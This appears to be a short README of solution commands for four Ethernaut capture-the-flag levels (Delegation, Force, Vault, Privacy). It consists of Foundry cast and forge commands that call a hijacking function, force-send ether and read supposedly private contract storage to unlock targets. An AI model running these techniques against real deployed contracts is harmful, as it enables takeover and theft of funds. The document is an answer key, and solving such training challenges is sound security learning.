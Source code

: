 # Ethernaut

## Delegation

```bash
cast send <TARGET_CONTRACT> "pwn()"
```

## Forge

```bash
# Deploy
forge create ForceAttacker --constructor-args <TARGET_CONTRACT>

# Attack
cast send --value 0.01ether <ATTACKER_CONTRACT>
```

## Vault

```bash
PASSWORD=$(cast storage 0x19750Da423914182425B8F16E00A9ADDc6fd493d 1)
cast send <TARGET_CONTRACT> "unlock(bytes32)" "$PASSWORD"
```

## Privacy

```bash
$ KEY=$(cast storage 0x83B62e11B1ebD2b8a65c4Ff55E61d5201C46a07F 5)
$ cast send <ATTACKER_CONTRACT> "attack(address,bytes32)" <TARGET_CONTRACT> "$KEY"
```
